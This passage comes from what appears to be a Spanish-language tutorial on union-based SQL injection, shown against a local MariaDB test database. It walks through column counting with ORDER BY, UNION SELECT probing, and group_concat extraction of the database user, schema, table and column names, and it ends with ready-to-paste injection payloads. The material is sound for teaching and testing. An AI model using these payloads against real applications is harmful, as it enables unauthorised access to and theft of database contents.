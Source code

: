 ```
Empty set (0.001 sec)

MariaDB [test_db]> select * from Accounts where Username = '' order by 4;
ERROR 1054 (42S22): Unknown column '4' in 'order clause' <------------------ Number of columns = 3 (4 - 1)
```

> Tambien puede usarse la palabra clave `group by`, ambos funcionan igual para este propósito
{: .prompt-info}

> Ahora tenemos que hacer una selección con el número de columnas de la tabla para poder usar cualquiera de sus campos

![SQLI](sqli_union_select.png){: .shadow}

Para ello usamos la palabra clave `union` que nos permite unir varias selecciones de distintas tablas en una sola. Veamos el ejemplo:

```
MariaDB [test_db]> select * from Accounts where Username = '' union select 1,2,3;
+----------+----------+-------+
| Username | Password | Email |
+----------+----------+-------+
| 1        | 2        | 3     |
+----------+----------+-------+
```

> Ahora que ya tenemos acceso a los campos, usamos la función `group_concat()` para poder extraer los nombres de bases de datos, columnas, etc

![SQLI](sqli_group_concat.png){: .shadow}

La función `group_concat()` nos ayuda a concatenar datos de múltiples filas en un solo campo. Veamos un ejemplo:

```
MariaDB [test_db]> select * from Accounts where Username = '' union select 1,2,group_concat(0x7c, user(), 0x7c, database(), 0x7c);
+----------+----------+--------------------------+
| Username | Password | Email                    |
+----------+----------+--------------------------+
| 1        | 2        | |root@localhost|test_db| |
+----------+----------+--------------------------+
```

Finalmente ahora podemos extraer diversa información como:

```console
--Database names
' union select 1,2,group_concat(0x7c,schema_name,0x7c) from information_schema.schemata

--Tables of a database
' union select 1,2,3,group_concat(0x7c,table_name,0x7C) from information_schema.tables where table_schema=[database]

--Column names
' union select 1,2,3,group_concat(0x7c,column_name,0x7C) from information_schema.columns where table_name=[table name]
```
